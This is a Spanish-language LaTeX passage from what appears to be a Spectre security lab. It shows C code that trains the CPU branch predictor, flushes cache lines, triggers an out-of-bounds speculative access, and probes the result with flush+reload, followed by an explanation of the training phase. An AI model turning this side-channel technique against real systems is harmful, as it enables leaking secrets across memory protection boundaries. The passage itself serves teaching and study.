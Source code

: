 \subsection{El Experimento}

En esta tarea, usaremos un experimento para observar los efectos causados por la ejecución fuera de orden. El código usado en este experimento es mostrado a continuacióon.
Algunas de las funciones usada en el código son las mismas que se usaron en tareas anteriores, por lo que no serán repetidos.

\begin{lstlisting}[caption=\texttt{SpectreExperiment.c}, label=spectre:list:outoforder]
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

int size = 10;
uint8_t array[256*4096];
uint8_t temp = 0;

void victim(size_t x) 
{
  if (x < size) {                          (*@\ding{192}@*)
     temp = array[x * 4096 + DELTA];       (*@\ding{193}@*)
  }
}

int main() 
{
  int i;

  // FLUSH the probing array
  flushSideChannel();

  // Train the CPU to take the true branch inside victim()
  for (i = 0; i < 10; i++) {               (*@\ding{194}@*)
      victim(i);                           (*@\ding{195}@*)
  }

  // Exploit the out-of-order execution 
  _mm_clflush(&size);                      (*@\ding{80}@*)
  for (i = 0; i < 256; i++)  
      _mm_clflush(&array[i*4096 + DELTA]);
  victim(97);                              (*@\ding{196}@*)

  // RELOAD the probing array
  reloadSideChannel();
  return (0);
}
\end{lstlisting}

Para que las CPUs puedan realizar la ejecución especulativa, deberían de poder predecir el resultado de la condición IF. Las CPUs guardan un registro de los branches que fueron tomados en el pasado y luego usa estos resultados para predecir que branch debería de ser tomado en una ejecución especulativa.
Además, si quisieramos que la CPU tome un branch en particular dentro de la ejecución especulativa, deberíamos de entrenar al CPU, por lo que nuestro branch elegido se puede convertir en el resultado de esa predicción. Este entrenamiento es hecho dentro del bloque \texttt{for} que comienza en la Línea . 
Dentro de este for-loop, invocamos a la función \texttt{victim()} con un argumento cuyo valor es pequeño (este va de 0 a 9).
Estos valores son menores que el valor \texttt{size}, por lo que el true-branch para esta condición en la Línea  es siempre el que se elige. Esta es la fase de entrenamiento, que esencialmente entrena a la CPU que espera a que la 
condición IF sea verdadera.

